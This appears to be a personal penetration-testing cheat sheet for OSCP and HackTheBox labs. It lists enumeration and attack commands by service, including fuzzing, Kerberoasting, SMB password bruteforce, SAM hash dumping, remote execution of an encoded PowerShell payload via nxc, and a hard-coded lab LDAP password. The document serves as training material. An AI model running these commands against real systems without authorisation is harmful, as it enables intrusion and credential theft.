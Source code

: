 ```yaml
---
description: All but the easiest HTBs are harder than even the 25 point exam boxes.
---
```


# Enumeration

{% embed url="https://sgtdede.gitbook.io/hacking/oscp-2022/guide-en" %}

{% embed url="https://eins.li/posts/oscp-secret-sauce/" %}

{% embed url="https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html" %}

{% embed url="https://casvancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/#reconnaissance" %}

{% embed url="https://github.com/oncybersec/oscp-enumeration-cheat-sheet" %}

### Nmap

```
nmap -sC -sV -p- $ip -v -oN scan.nmap        (TCP)
sudo nmap -sU --top-ports 20 -oN udpscan.nmap -vv $ip  (UDP)
-Pn Disables host discovery and only conducts a port scan. 
-A OS/Version Detection
-O Remote OS detection using TCP/IP stack fingerprinting
```

### HTTP/HTTPS (80/443)

{% hint style="info" %}
Always look up documentation of service you're trying to exploit, 90% of the time the answer will be there if you feel all other vectors are off
{% endhint %}

<pre><code>(VHost)     ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -u http://$IP:PORT -H 'Host: FUZZ.board.htb' -f(c/s/w)   
(Directory) ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP:PORT/FUZZ 
(File fuzzing) -e .php,.html,.txt            
(HTTP POST) ffuf -w [wordlist] -u [URL] -X POST -d '<a data-footnote-ref href="#user-content-fn-1">id=FUZZ</a>' -H 'header: value' -fs xxx  
(Use raw request) : ffuf -request request.txt -request-proto http -w wordlist.txt -r [FUZZ should be present in the request]
(Multiple params) ffuf -w list1.txt:W1 -w list2.txt:W2 -X POST -d "username=W1&#x26;password=W2" -u [URL] -fc 200
-p "1.0" and -rate [25]  to rate limit incase of WAF
-r follow redirect
-recursion
wfuzz -c -w /usr/share/wordlists/yes.txt -u "http://alert.htb/" -H "Host: FUZZ.alert.htb"

curl --insecure -b "[cookiename]=[value]" -X POST --data "[data]" [URL] (--insecure bypass SSL verification)

nikto -h $ip

sudo wpscan --url http://[URL]
sudo wpscan --url http://[URL] -e ap --plugins-detection aggressive
</code></pre>

### FTP (21)

* Version number and associated CVEs
* Anonymous / authenticated login (with discovered creds)
* Sensitive files that you have read access to
* File upload

```
wget -r ftp://anonymous:@<IP>    [If you can't see anything or don't really know where you are]
ftp [ip]
passive (Mitigate entering passive mode)
dir
dir
binary (Set to binary mode for proper channel to download bin files)
get [file]
```

### SSH (22)

```
ssh -L [kali_port]:localhost:[target_port] [user]@[ip] -fN
chmod 600 id_dsa
port forwarding (local and remote)
sshuttle
proxychains?
```

### SMTP (25)

```
telnet 10.10.11.14 25
EHLO [emailid]
AUTH LOGIN
[username in base64]
[password in base64]

swaks --to receiver@mail.com --from sender@mail.com --auth LOGIN --auth-user sender@mail.com --header-X-Test "Header" --server <TARGET-IP> --attach file.txt
```

### Kerberos (88)

Golden/Silver ticket loading

```
./kerbrute_linux_amd64 userenum -d <domain>  userlist.txt --dc <domain> -v
./GetNPUsers.py -dc-ip [ip] -request '[domain]/[user]'
./GetNPUsers.py [domain] -dc-ip [ip] -usersfile userlist.txt
./GetNPUsers.py -no-pass -dc-ip [ip] [domain]/[user]
hashcat64 -m 18200 <hash> rockyou.txt -d 1

./GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] 
./GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] -request <get ticket here>

export KRB5CCNAME=/home/jtripz/htb/rooms/escape/ticket.ccache; faketime -f '+8h' /usr/bin/python3 psexec.py [domain]/[username]@[dc] -k -no-pass
```

### SMB (139/445)

```
NXC
nxc smb [ip]
nxc smb 10.10.11.35 -u userlist.txt -p 'password' [bruteforce usernames, change smb to winrm/ldap or any other protocol you want to test perms for]
nxc smb [host/ip] -u guest -p '' --shares [list shares depending on user access provided]
nxc smb [host] -u [user] -p [password] --sam
nxc smb 10.10.10.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='

SMBCLIENT [INTERACT WITH SMB]
smbclient //[ip]/[share] -N -L [List share with null auth]
smbclient --user username //10.10.11.35/DEV
recurse ON
prompt OFF
mget *
smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass [Kerberos auth]

SMBMAP
smbmap -H [ip] -u user -p 'password' -r SYSVOL --depth 10
smbmap -H [ip] --download PATH_TO_FILE

RPCCLIENT
rpcclient -U '' -N 10.10.11.35   
rpcclient -U 'user'  10.10.11.35
enumdomusers
enumdomgroups
querydispinfo (less info about all users)
querygroup [RID]
queryuser [RID]
enumprivs

MOUNT
#First create folder in kali linux 
mkdir /mnt/smb
#mount folder to kali
sudo mount -t cifs //[IP]/[SHARE] /mnt/smb

responder to receive NTLM authentication hashes from services like mysql
smbserver.py
```

#### User Enumeration

<pre><code><strong>lookupsid.py guest@[ip] -no-pass
</strong>lookupsid.py [domain]/[user]:'[pass]'@[ip/domain]
netexec smb [ip] -u guest -p '' --[rid-brute/users/groups/local-users]
</code></pre>

{% embed url="https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html" %}

{% embed url="https://www.hackingarticles.in/active-directory-enumeration-rpcclient/" %}

### LDAP (389)&#x20;

```
ldapsearch -H ldap://[ip] -x -s base namingcontexts  [-x simple auth, -s scope]
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" > ldap.anon.out  
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)'

Windows timestamp to human cus Windows does not follow EPOC, for user and password creation and last pass attempt and all the stuff associated with the above search
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  sAMAccountType

ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName sAMAccountType | grep sAMAccountName | awk '{print $2}' > userlist.ldap

ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep "User" -B 20 -A 20
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" '(&(objectClass=Person)(cn=support))'| grep "User" -A 20 -B 20

nxc ldap 10.10.10.10 -u '' -p '' -M get-desc-users
nxc ldap 10.10.10.10 -u '' -p '' --password-not-required --admin-count --users --groups
```

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap" %}

{% embed url="https://web.archive.org/web/20200309204648/http://0daysecurity.com/penetration-testing/enumeration.html" %}

[^1]: FUZZ=key if you wanna do the opposite
